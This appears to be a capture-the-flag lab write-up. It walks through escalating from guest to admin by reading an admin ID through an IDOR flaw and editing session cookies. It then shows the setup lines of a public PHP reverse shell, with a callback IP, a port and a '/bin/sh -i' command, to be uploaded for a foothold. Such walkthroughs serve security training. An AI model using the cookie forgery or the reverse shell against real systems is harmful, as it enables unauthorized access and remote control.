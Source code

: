 ## Enumerating on Cookies and Escalating Privilege
We need to find a way to escalate our privileges from user `Guest` to `super admin` role. One way to try this is by checking if cookies and sessions can be manipulated.

We open up Developer Tools in our browser (can be done via multiple ways, e.g. hitting `ctrl+shitf+C`).

Then we can navigate to `Storage` section where `Cookies` are being presented.
We can observe that there is a `role=guest` and `user=2233` which we can assume that if we somehow knew the number of `super admin` for the user variable, we might be able to gain access to the upload page.

When we are on the Account page, we can see that, in the url of the page, there is an `id` for every user:
`http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=2`

![[Pasted image 20241006232011.png]]

We check what happens if we simply change the id number in the browser's url bar. We see that we are met with an information disclosure vulnerability, as we get the access ID of the admin user this way.

![[Pasted image 20241006232030.png]]

We can abuse and exploit this vulnerability by editing our user cookie so the `user` value to be `34322` and role value to be `admin`. Then we can revisit the Uploads page.

![[Pasted image 20241006232205.png]]

And so we got access to the upload form.

# 3. Foothold

Now that we got access to the upload form we can attempt to upload a `PHP` reverse shell.
Instead of creating our own one, we will use an existing one.

In Parrot OS, it is possible to find webshells under the folder `/usr/share/webshells/`, however, we can also download it from [here](https://github.com/BlackArch/webshells).
For this exercise we are going to use the `/usr/share/webshells/php/php-reverse-shell.php`.

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only. Users take full responsibility
// for any actions performed using this tool. The author accepts no liability
// for damage caused by this tool. If these terms are not acceptable to you, then
// do not use this tool.
//

// <SNIP>

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS WITH YOUR IP
$port = 1234;       // CHANGE THIS WITH YOUR LISTENING PORT
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

// <SNIP>
```